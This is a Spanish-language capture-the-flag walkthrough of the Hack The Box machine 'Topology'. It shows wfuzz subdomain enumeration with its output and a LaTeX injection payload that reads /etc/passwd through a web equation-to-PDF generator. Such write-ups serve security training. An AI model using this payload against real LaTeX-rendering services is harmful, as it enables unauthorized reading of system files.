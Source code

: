 ```bash
wfuzz -c --hc=404 --hw=545 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" 10.10.11
.217 2>/dev/null

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.217/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                       
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"                                                         
000000061:   200        5 L      9 W        108 Ch      "stats"
000000243:   200        7 L      11 W       154 Ch      "latex" 
```
{: .nolineno}

- dev
- stats
- latex

ahora sí, mi equipo puede identificar esos dominios y la página se ve de esta forma

![](htb-writeup-topology/web2.png)

Vale, en este punto vamos a notar que de alguna forma tenemos que ejecutar comandos o leer archivos de la máquina atraves de es
ta entrada,
lo que hace es generar ecuaciones , o lo que le pongas ahí, pasándolo a un pdf que posteriormente se ve desde la web

di con algunas páginas , una de ellas fué PayloadAllTheThings 

- [Latex-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

esta es la que me sirvió para darme una idea de lo que tenia que hacer

## inyección con látex

### inyección con látex (1)

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```
